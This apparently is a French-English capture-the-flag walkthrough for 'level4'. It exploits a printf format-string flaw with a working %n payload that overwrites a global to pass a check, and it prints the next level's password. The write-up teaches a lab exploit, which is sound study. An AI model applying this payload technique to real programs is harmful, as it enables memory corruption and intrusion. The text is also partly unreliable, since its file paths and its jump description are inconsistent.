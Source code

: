 ```
objdump -M intel -d level4
```

Nous observons que la fonction main appelle une fonction "n" et une "p"
Qui elle même appelle printf, qui peut être exploitée.

```
08048444 <p>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24             	mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
```

```
 8048488:	e8 b7 ff ff ff       	call   8048444 <p>
 804848d:	a1 10 98 04 08       	mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01       	cmp    eax,0x1025544
```
This part is intersting, it makes a comparison, in case it's not equal it jumps to this adress 0x8049810.
The goal is to have this comparison true then we will have succeded.
To achieve this we have to change the value at 0x8049810 using printf.
La seule différence est qu'ici, la comparaison se fait avec un chiffre en "dur" :
0x8049810 -> decimal :16930116

Trouvons notre offset, nous chercherons la valeur ascii de "a" soit 61: (nous avons rajouter des %x car l'offset est plus loin que precedemment)
```
python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
```
On observe que l'adresse se trouve en 12eme position !


adresse : \x10\x98\x04\x08" ==  (  0x080484da <+54>:	mov    0x804988c,%eax) -> adresse Pointeur 
padding:  "a" * 60 64 - 4 == 60 
modification : %16930112c  -> 16930116 - 4 (adress of m)


```
python -c 'print("\x10\x98\x04\x08" + "%16930112c" + "%12$n")' > /tmp/test12
cat /tmp/12 - | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
su level5
```
